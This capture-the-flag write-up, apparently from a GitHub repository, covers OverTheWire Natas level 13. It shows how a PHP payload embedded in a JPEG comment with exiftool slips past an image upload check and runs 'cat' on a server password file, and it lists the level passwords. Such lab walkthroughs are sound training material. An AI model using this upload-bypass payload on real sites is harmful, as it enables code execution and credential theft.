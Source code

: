 <h2>🔰 Level - 13</h2>

- username - natas13
- password - lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9

	The site gives an option to upload a jpeg file. Link for sourcecode was also given. <br>
	But this time, they are actually checking if the data uploaded is an image or not. So we can't simply upload a php script.

	On researching how to inject php code within a jpg file, came across this <a href="https://onestepcode.com/injecting-php-code-to-jpg/">link</a><br>

	I added the following php payload as a comment to a random jpg file using the `exiftool` tool.

	```php
	<?php system('cat /etc/natas_webpass/natas14') ?>
	```

	Command used: `exiftool -comment="<?php system('cat /etc/natas_webpass/natas14') ?>" images.jpg`

	Then I uploaded this file, changed the extension of the filename in inline php generated file name(similar to previous level) and got the file link. On opening the link, a random bunch of non-readable characters(that of jpg part of the file), along with password was displayed.

Password for level 14 - qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP